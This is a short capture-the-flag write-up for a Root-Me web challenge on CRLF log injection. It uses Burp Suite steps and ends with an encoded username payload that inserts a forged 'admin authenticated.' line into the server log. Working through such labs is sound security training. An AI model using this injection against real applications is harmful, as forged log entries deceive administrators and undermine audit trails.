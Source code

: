 # Challenge18: CRLF

## Ref
    + w3schools: https://www.w3schools.com/tags/ref_urlencode.ASP

## Solution

    1. This challenge is about '\r' and '\n' symbols
    2. Open Burp suite and go to the target url: http://challenge01.root-me.org/web-serveur/ch14/
    3. Try to login with your information, for example:
```
GET web-serveur/ch14/username=dangphuc&password=godyzac

Result:
dangphuc failed to authenticate.
```
    4. After a while, i realize that we don't need to send password to login:

```
GET web-serveur/ch14/username=dangphuc

Result:
dangphuc failed to authenticate.
```
    
    5. This is the sample logs:

```
admin authenticated.
guest failed to authenticate.
```
    
    6. So now think of CRLF('\r' & '\n'), Can we log the same as 5 ?

```
GET web-serveur/ch14/username=admin%20authenticated.%0D%0Aguest
                                ^
                                |
                                |
                    username = "admin authenticated.\r\nguest"
```

    7. When you make the request in step 6, you will get the flag :)
